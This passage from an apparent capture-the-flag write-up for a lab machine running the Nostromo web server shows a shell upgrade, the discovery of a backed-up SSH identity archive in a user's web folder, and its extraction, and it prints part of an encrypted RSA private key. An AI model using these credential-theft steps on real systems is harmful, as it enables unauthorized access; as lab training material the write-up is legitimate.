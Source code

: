 According to [Nostromo manual](http://www.nazgul.ch/dev/nostromo_man.html) the
`HOMEDIRS` section allow the server to serve the user's home and some specific
folder. In fact this is possible as the `http://10.10.10.165/~david/` show us.

![http://10.10.10.165/~david/](/media/2020.xx/traverxec_5.png)

First of all we use python to get a proper shell `python -c 'import pty; pty.spawn("/bin/sh")'`.

The we go in the `public_www` folder inside david's home folder. We see that
there is a backup of some SSH identity files in a targz archive.

```
$ cd /home/david/public_www/
cd /home/david/public_www/
$ ls
ls
index.html  protected-file-area
$ ls protected-file-area
cls protected-file-area
backup-ssh-identity-files.tgz
```

We copy the archive to `/tmp/`, extract it and cat the private RSA key.

```
$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
$ cd /tmp/
cd /tmp/
$ tar xvf backup-ssh-identity-files.tgz
tar xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
$ cat home/david/.ssh/id_rsa
cat home/david/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
```